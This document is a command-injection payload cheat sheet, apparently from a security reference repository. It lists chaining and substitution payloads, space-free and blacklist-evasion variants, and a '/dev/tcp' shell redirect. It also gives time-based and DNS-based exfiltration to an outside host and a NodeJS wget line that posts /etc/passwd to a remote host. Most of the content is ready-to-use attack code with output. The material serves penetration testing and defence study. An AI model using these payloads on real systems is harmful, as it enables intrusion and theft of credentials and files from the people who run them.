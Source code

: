 # Remote Commands Execution
Remote Commands execution is a security vulnerability that allows an attacker to execute Commandss from a remote server.


## Exploits
Normal Commands execution, execute the command and voila :p
```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
```

Commands execution by chaining commands
```
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls    Only if the first cmd fail
```

Commands execution inside a command
```
original_cmd_by_server `cat /etc/passwd`
original_cmd_by_server $(cat /etc/passwd)
```

Commands execution without space - Linux
```
swissky@crashlab:~/Www$ cat</etc/passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ {cat,/etc/passwd}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ cat$IFS/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
RCE
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ X=$'uname\x20-a'&&$X
Linux crashlab 4.4.X-XX-generic #72-Ubuntu

swissky@crashlab▸ ~ ▸ $ sh</dev/tcp/127.0.0.1/4242
```

Commands execution without space - Windows
```
ping%CommonProgramFiles:~10,-18%IP
ping%PROGRAMFILES:~10,-5%IP
```


Commands execution without spaces, $ or { } - Linux (Bash only)
```
IFS=,;`cat<<<uname,-a`
```

Commands execution with a line return
```
something%0Acat%20/etc/passwd
```

Bypass blacklisted word with single quote
```
w'h'o'am'i
```

Bypass blacklisted word with double quote
```
w"h"o"am"i
```

Bypass blacklisted word with $@
```
who$@ami
```

Bypass zsh/bash/sh blacklist
```
echo $0
-> /usr/bin/zsh
echo whoami|$0
```


## Time based data exfiltration
Extracting data : char by char
```
swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real	0m5.007s
user	0m0.000s
sys	0m0.000s

swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real	0m0.002s
user	0m0.000s
sys	0m0.000s
```


## DNS based data exfiltration
Based on the tool from https://github.com/HoLyVieR/dnsbin also hosted at dnsbin.zhack.ca
```
1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'
for i in $(ls /) ; do host "http://$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
```

## Environment based
NodeJS Commands execution
```
require('child_process').exec('wget --post-data+"x=$(cat /etc/passwd)"+HOST')
```

## Thanks to
* [SECURITY CAFÉ - Exploiting Timed Based RCE](https://securitycafe.ro/2017/02/28/time-based-data-exfiltration/)
* [Bug Bounty Survey - Windows RCE spaceless](https://twitter.com/bugbsurveys/status/860102244171227136)
* [No PHP, no spaces, no $, no { }, bash only - @asdizzle](https://twitter.com/asdizzle_/status/895244943526170628)
